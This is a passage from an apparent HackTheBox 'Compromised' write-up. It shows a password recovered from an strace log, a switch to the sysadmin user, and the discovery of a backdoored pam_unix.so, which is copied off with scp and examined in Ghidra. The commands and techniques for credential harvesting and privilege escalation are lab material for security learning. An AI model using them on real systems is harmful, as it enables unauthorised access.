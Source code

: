 ```
mysql@compromised:~$ cat strace-log.dat | grep password
22227 03:11:09 execve("/usr/bin/mysql", ["mysql", "-u", "root", "--password=3*NLJE32I$Fe"], 0x55bc62467900 /* 21 vars */)
```

Considering user in the system `sysadmin`, I tried to switch user with above password and got sysadmin shell:

```
mysql@compromised:~$ su sysadmin
Password: 
sysadmin@compromised:/var/lib/mysql$
```
Under sysadmin home i found user.txt

## Priviledge Escalation

### Pam Backdoor

In addition to basic enumeration, I decided to looking for recently modified things. I came across the following output:

```
sysadmin@compromised:/lib$ find . -mtime -24
.
./x86_64-linux-gnu/security
./x86_64-linux-gnu/security/.pam_unix.so
./x86_64-linux-gnu/security/pam_unix.so
./systemd/system
./udev
./udev/rules.d
./ifupdown
```

Looking for a pam backdoor , I found one in github that created the same archive (https://github.com/zephrax/linux-pam-backdoor)

So I decided to transfer this file to my machine using scp:
```
scp sysadmin@compromised.htb:/lib/x86_64-linux-gnu/security/pam_unix.so Desktop/pam_unix.so
```
### Reverse Engineering

Decompiling the functions with `Ghidra`, there were two hex strings inside `pam_sm_authenticate` belonging to variable backdoor:

![ghidra](/assets/img/htb/compromised/ghidra.png)